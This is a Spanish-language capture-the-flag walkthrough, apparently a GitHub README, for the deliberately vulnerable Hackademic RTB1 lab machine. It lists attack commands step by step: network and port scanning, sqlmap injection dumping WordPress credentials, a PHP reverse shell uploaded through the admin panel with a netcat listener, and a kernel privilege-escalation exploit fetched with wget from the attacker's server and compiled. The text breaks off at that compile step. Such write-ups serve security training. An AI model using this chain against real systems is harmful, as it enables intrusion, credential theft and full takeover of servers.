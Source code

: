 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=F70000&background=FF000000&width=500&height=70&lines=HACKADEMIC_RTB1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb1,17/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Hackademic-RTB1-22?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con NetDiscover. 
```
netdiscover --interface wlan0 --range 192.168.1.0/24
```
![1](https://user-images.githubusercontent.com/75953873/171916293-58226ff2-39aa-4d40-b2b2-df538a7784d1.png)

Objetivo: 192.168.1.5


- *Paso 2:* Escaneo de puertos abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/171916862-e15a1cc6-e25a-4613-a54c-3d8b3f135135.png)

Detección de sistema operativo y versión: 
```
nmap -p 80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/171917441-d5f58873-8274-4611-90f6-db7bb9902c1a.png)

Puerto abierto: 80

Servidor web corriendo: HTTP Apache

- *Paso 3:* Búsqueda de vectores vulnerables a SQL. 

```
http://192.168.1.5/Hackademic_RTB1/?cat=1
```
![4](https://user-images.githubusercontent.com/75953873/171920301-015e4c06-3a1f-4535-9790-f4f450563eb9.png)

- *Paso 4:* Inyección de SQL a base de datos con Sqlmap. 

```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' --dbs --batch
```
![5](https://user-images.githubusercontent.com/75953873/171921174-bbf606b5-80d8-4cbc-9a01-8c068de466fc.png)

Extraer toda la información de la base de datos de WordPress:
```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' -D wordpress --dump-all --batch
```
![6](https://user-images.githubusercontent.com/75953873/171922959-d02ba87f-22b8-4770-b0dc-9c74c82eee21.png)

Usuario de WordPress: `GeorgeMiller`

Contraseña: `q1w2e3`

Acceder al panel de login de WordPress:
```
http://192.168.1.5/Hackademic_RTB1/wp-login.php
```
![7](https://user-images.githubusercontent.com/75953873/171924583-6a77c97a-d61c-4d81-a199-39077d868d4b.png)

- *Paso 4:* Subir código PHP y obtener una reverse shell. 

-> Manage -> Files

![8](https://user-images.githubusercontent.com/75953873/171925393-d911ddcf-cf5a-4670-8143-4026d0c70424.png)

Copiar código PHP de la siguiente ruta:
```
cat /usr/share/webshells/php/php-reverse-shell.php
```
![9](https://user-images.githubusercontent.com/75953873/171925910-7d2cc0de-93a1-4bc8-aeaf-dad026c76a9c.png)

Pegan el código en hello.php y cambian la línea de `$ip` por su IP local, luego guardan los cambios "Update File":

![10](https://user-images.githubusercontent.com/75953873/171926310-94b22d02-b809-4029-a72f-d90b1634fe8d.png)

Abren una nueva terminal y ejecutan Netcat para que escuche las conexiones por el puerto 1234. 
```
nc -lvp 1234
```

Posteriormente recargan la siguiente URL:
```
http://192.168.1.5/Hackademic_RTB1/wp-content/plugins/hello.php
```
![11](https://user-images.githubusercontent.com/75953873/171927713-64734806-0fc2-41d6-8b17-aff9e45f4b35.png)

- *Paso 5:* Identificar versión del Kernel y escalar privilegios. 

![12](https://user-images.githubusercontent.com/75953873/171928596-5a971c00-0c42-4d48-bf3c-93a776150472.png)

Localizar el exploit con searchsploit:
```
searchsploit Linux Kernel 2.6.3 RDS Local Privilege Escalation
```
![13](https://user-images.githubusercontent.com/75953873/171930886-0c5950e1-7c71-4a88-9aec-0b2fd90a1fa4.png)

Descargar el exploit:
```
searchsploit -m 15285
```
![14](https://user-images.githubusercontent.com/75953873/171931554-8fde81f6-88fd-4281-8597-ebeb5fd57124.png)

Ejecutamos un servidor HTTP local simple con Python:
```
python3 -m http.server 80
```
![16](https://user-images.githubusercontent.com/75953873/171932402-4c30740c-4e87-4d2e-99be-b09d54c089c1.png)

Dentro de la reverse shell generada, nos movemos al directorio `/tmp` y descargamos el exploit de nuestro servidor:
```
cd /tmp
wget http://192.168.1.9/15285.c
```
![15](https://user-images.githubusercontent.com/75953873/171932443-98620783-0a4f-4007-b69e-fe03b8ce7612.png)

Seguidamente compilamos el código y le damos permisos de lectura, escritura y ejecución:
```
gcc 15285.c -o kernel
chmod 777 kernel
```
![17](https://user-images.githubusercontent.com/75953873/171933850-a08f1cb8-f9fa-4762-96f9-cc2af26619a2.png)
